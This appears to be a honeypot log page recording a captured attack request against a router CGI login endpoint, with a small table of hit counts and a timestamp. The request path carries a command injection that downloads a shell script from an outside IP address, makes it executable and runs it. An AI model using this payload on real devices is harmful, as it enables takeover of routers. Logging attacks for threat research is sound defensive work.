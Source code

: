 # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+http%3A%2F%2F51.222.56.159%2Fsh+%3B+chmod+777+sh+%3B+sh+sh&loginUser=a&loginPwd=a
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 5 | 5 | | 220110-033754 |

## CVE: 